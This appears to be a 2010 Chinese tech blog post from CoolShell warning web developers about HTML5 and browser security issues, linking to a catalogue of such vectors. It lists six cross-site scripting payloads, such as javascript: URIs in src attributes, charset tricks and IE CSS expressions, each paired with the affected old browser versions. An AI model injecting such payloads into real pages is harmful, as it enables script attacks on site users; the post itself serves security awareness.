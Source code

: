 ```yaml
---
layout: post
title: HTML 安全列表
date: 2010/5/12/ 0:57:38
updated: 2010/5/12/ 0:57:38
status: publish
published: true
type: post
---
```


下面这个网站罗列了，几乎所有的关于HTML 5 在各种主流浏览器上的安全问题，这些安全问题很有可能将会是黑客攻击你的网上的敲门砖，他们几乎都和Javascript都有关系，你就要好好注意了。


[**http://heideri.ch/jso/**](http://heideri.ch/jso/)


下面罗列几个：


**1）<table background=”javascript:alert(1)”>**


IE6，7，8，9，和Opera 8.x, 9.x, 10.x 都支持这样的语法。


**2）<meta charset=”mac-farsi”>¼script¾alert(1)¼/script¾**


这个问题会存在于所有的Firefox版本中，可以让用户进行XSS（跨站脚本）攻击


**3）<script>&amp;#x61;l&amp;#x65;rt&amp;#40;1)</script>**


在<script>和<style>的TAG间，根据标据，其可以使用这样的字符来运行脚本。这在所有版本的Firefox, Opera, 和 Chrome中都会有问题。



**4）({set/\*\*/$($){\_/\*\*/setter=$,\_=1}}).$=alert**


上面这个是Firefox的一个[语法](https://developer.mozilla.org/en/Core_JavaScript_1.5_Guide/Working_with_Objects#Defining_Getters_and_Setters)，也会产生XSS攻击。


**5）<div style=”font-family:foo}x=expression(write(1));”>XXX</div>**


自从IE5.5后，直到IE9，IE就可以支持上面这样的语法。


**6）src中是可以运行脚本的，如：**


<embed src=”javascript:alert(1)”>  

<img src=”javascript:alert(1)”>  

<image src=”javascript:alert(1)”>  

<script src=”javascript:alert(1)”>


又一个XSS攻击，几乎所有的浏览器都支持这样的方式，如：Firefox全部版本，Chrome 4.x/5.x，Opera 8.x/9.x/10.0，IE 6.0/7.0和Safari 3.x/4.x



还有很多，大家自己去看吧，这个网站经常更新的。总体感觉下来，IE和Firefox的安全问题都在伯仲之间，Safari貌似是问题最少的。




**（转载本站文章请注明作者和出处 [酷 壳 – CoolShell](https://coolshell.cn/) ，请勿用于任何商业用途）**



### 相关文章

* [![网络数字身份认证术](https://coolshell.cn/wp-content/uploads/2022/01/iStock-1175502114-150x150.png)](https://coolshell.cn/articles/21708.html)[网络数字身份认证术](https://coolshell.cn/articles/21708.html)
* [![HTTP API 认证授权术](https://coolshell.cn/wp-content/uploads/2019/05/Authorization-360x200-1-150x150.png)](https://coolshell.cn/articles/19395.html)[HTTP API 认证授权术](https://coolshell.cn/articles/19395.html)
* [![如何免费的让网站启用HTTPS](https://coolshell.cn/wp-content/uploads/2017/08/enable-https-banner-150x150.png)](https://coolshell.cn/articles/18094.html)[如何免费的让网站启用HTTPS](https://coolshell.cn/articles/18094.html)
* [![Chrome开发者工具的小技巧](https://coolshell.cn/wp-content/uploads/2017/01/pretty-code-150x150.gif)](https://coolshell.cn/articles/17634.html)[Chrome开发者工具的小技巧](https://coolshell.cn/articles/17634.html)
* [![从 MongoDB “赎金事件” 看安全问题](https://coolshell.cn/wp-content/uploads/2017/01/MongoDB-150x150.jpg)](https://coolshell.cn/articles/17607.html)[从 MongoDB “赎金事件” 看安全问题](https://coolshell.cn/articles/17607.html)
* [![关于移动端的钓鱼式攻击](https://coolshell.cn/wp-content/uploads/2015/04/phishing-1-150x150.jpg)](https://coolshell.cn/articles/17066.html)[关于移动端的钓鱼式攻击](https://coolshell.cn/articles/17066.html)
The post [HTML 安全列表](https://coolshell.cn/articles/2416.html) first appeared on [酷 壳 - CoolShell](https://coolshell.cn).

